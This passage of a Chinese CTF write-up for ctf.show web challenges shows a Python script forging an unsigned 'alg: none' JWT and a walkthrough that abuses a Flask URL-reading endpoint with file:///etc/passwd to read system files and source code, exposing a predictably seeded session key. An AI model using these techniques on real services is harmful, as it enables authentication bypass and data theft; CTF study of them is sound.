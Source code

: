 登陆上去，然后发送信息，回去刷新一下就行了

## JWT令牌伪造 

随便一个id拿到jwt，网上解析一下，伪造成none.

```python
import base64
import json


def b64url_encode(data: bytes) -> str:
    """Base64 URL-safe 编码，去掉填充 ="""
    return base64.urlsafe_b64encode(data).decode().rstrip("=")

# Header: alg=none
header = {"alg": "none", "typ": "JWT"}
payload = {"user": 'admin', "admin": "false"}  # 你要伪造的用户数据

# 分别编码
header_b64 = b64url_encode(json.dumps(header).encode())
payload_b64 = b64url_encode(json.dumps(payload).encode())

# 拼接 JWT，签名为空
jwt = f"{header_b64}.{payload_b64}."

print("伪造的 JWT:")
print(jwt)

```

## Flask_Session伪造 

点进去说什么爬虫，点链接，url`https://71821fb8-a919-4c24-99b8-6a4b34764937.challenge.ctf.show/read?url=https://baidu.com`，这个就很抽象  

尝试伪协议读取,`file:///etc/passwd`，尝试读取源码，flask在`app/app.py`,

```python
# encoding:utf-8
import re
import random
import uuid
import urllib.request
from flask import Flask, session, request

app = Flask(__name__)

# 随机生成一个 SECRET_KEY
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random() * 100)
print(app.config['SECRET_KEY'])

app.debug = False


@app.route('/')
def index():
    session['username'] = 'guest'
    return 'CTFshow 网页爬虫系统 读取网页'


@app.route('/read')
def read():
    try:
```